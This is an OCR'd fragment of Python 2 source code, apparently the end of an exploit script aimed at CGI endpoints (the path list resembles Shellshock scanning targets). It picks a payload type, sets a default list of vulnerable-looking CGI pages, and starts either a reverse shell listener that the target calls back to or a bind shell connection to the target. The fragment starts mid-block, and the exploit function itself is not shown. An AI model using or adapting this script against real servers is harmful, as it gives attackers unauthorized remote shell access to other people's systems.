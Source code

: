     except:

        usage()

else:

    print "[*] Unsupported payload"

    usage()

    

try:

    pages = args['pages'].split(",")

except:

    pages = ["/cgi-sys/entropysearch.cgi","/cgi-sys/defaultwebpage.cgi","/cgi-mod/index.cgi","/cgi-bin/test.cgi","/cgi-bin-sdb/printenv","/cgi-bin-sdb/printenv","/cgi-mod/index.cgi","/cgi-sys/entropysearch.cgi","/cgi-sys/FormMail-clone.cgi","/xul/","/cgi-bin/status","/tmUnblock.cgi","/gitweb/","/gitweb.cgi","/gitweb/gitweb.cgi",

"/cgi-bin/","/cgi-bin/php","/cgi-bin/php5","/cgi-bin/php4","/cgi-bin/php-cgi","/cgi-bin/php.cgi","/cgi-bin/firmwarecfg","/cgi-bin/%2f/admin.html","/cgi-bin/admin.html",

"/cgi-bin/test-cgi","/sys-cgi","/dana-na/auth/url_default/welcome.cgi","/cgi-bin/tree.php","/cgi-bin/ICuGI/EST/blast_detail.cgi","/cgi-bin/hello","/cgi-sys/defaultwebpage.cgi",

"/cgi-bin/w3mman2html.cgi","/cgi-bin/status/status.cgi"]



try:

    proxyhost,proxyport = args['proxy'].split(":")

except:

    pass

            

if args['payload'] == 'reverse':

    serversocket = socket(AF_INET, SOCK_STREAM)

    buff = 1024

    addr = (lhost, lport)

    serversocket.bind(addr)

    serversocket.listen(10)

    print "[!] Started reverse shell handler" 

    thread.start_new_thread(exploit,(lhost,lport,rhost,0,payload,pages,))

if args['payload'] == 'bind':

    serversocket = socket(AF_INET, SOCK_STREAM)

    addr = (rhost,int(rport))

    thread.start_new_thread(exploit,("",0,rhost,rport,payload,pages,))
